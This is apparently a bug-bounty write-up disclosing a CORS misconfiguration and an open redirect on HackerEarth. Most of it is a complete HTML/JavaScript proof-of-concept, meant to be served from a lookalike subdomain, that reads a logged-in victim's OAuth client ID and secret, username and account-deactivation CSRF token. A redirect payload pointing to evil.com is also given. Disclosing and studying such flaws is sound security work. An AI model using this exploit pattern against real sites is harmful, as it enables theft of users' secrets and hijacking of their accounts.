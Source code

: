 ```yaml
---
title:      Stealing secrets tokens and all private info of hackerearth users  
date:       2020-07-10 11:31:19
author:     dr3dd
summary:    Stealing secrets tokens of hackerearth account 
categories: Bug-Bounty
thumbnail:  book
tags:
 - Bug-Bounty
---
```


Hi all,

I found two bugs in hackerearth. one of them is fixed and other is still not fixed.

### 1. cores misconfiguration (fixed)

When i change the origin header in request to `https://www.hackerearth.com.evil.com` the responce i got is:

```python
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://www.hackerearth.com.evil.com
```

I backend regex onlly check for `www.hackerearth.com` after `https://`. So i made a subdomain of my site `www.hackerearth.com.dr3dd.live` after passing this domain
in request i got the response is:

```python
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://www.hackerearth.com.dr3dd.live
```

We can see `Access-Control-Allow-Credentials: true` for `www.hackerearth.com.dr3dd.live`. So i wrote a small js script to steal secrets tokens of victim.

```html
<!DOCTYPE html>
<html>
<body>

<div>
<h1>Getting hackerearth Client secrets for victim!!!</h1>
<button type="button" onclick="loadDoc()">Get secrets!!!</button>
  <div id="demo1"></div>
  <div id="demo2"></div>
  <div id="demo3"></div>
<button type="button" onclick="get_csrf_token()">You can get any csrf token and make changes in victim account like this is account deactivate csrf token!!!</button>
  <div id="demo4"></div>
</div>

<script>
function loadDoc() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        var parser=new DOMParser();
        var xmlDoc=parser.parseFromString(this.responseText, "text/html").documentElement;
        var clientId = xmlDoc.querySelector('#client-id');
        var clientSecret = xmlDoc.querySelector('#client-secret');
        var username = xmlDoc.querySelector('#change-username');
        document.getElementById("demo1").innerHTML = clientId.innerText;
        document.getElementById("demo2").innerHTML = clientSecret.innerText;
        document.getElementById("demo3").innerHTML = username.innerText.replace('Edit','');;
        
    }
  };
  xhttp.open("GET", "https://www.hackerearth.com/users/profile-settings/", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
function get_csrf_token(){
  var xhttp = new XMLHttpRequest();
    xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        var parser=new DOMParser();
        var xmlDoc= parser.parseFromString(this.responseText, "text/html").documentElement;
        var csrf = xmlDoc.querySelector('#deactivate-form')[0].value;
      document.getElementById("demo4").innerHTML = "csrf for deactivate account : " + csrf;
    }
  };
  var username = document.getElementById("demo3").innerText;
  var url = "https://www.hackerearth.com/deactivate/" + username.replace("Username: ","");;
  xhttp.open("GET", url, true);
  xhttp.withCredentials = true;
  xhttp.send();
}
  
  
</script>

</body>
</html>
```

I have hosted it on `http://www.hackerearth.com.dr3dd.live/cores.html` first button steal secrets token and second one steal csrf tokens of victim.


### 2. Open Redirect 

This one is pretty simple bug.

`https://www.hackerearth.com/social-login-complete-page/?redirect=https://evil.com`
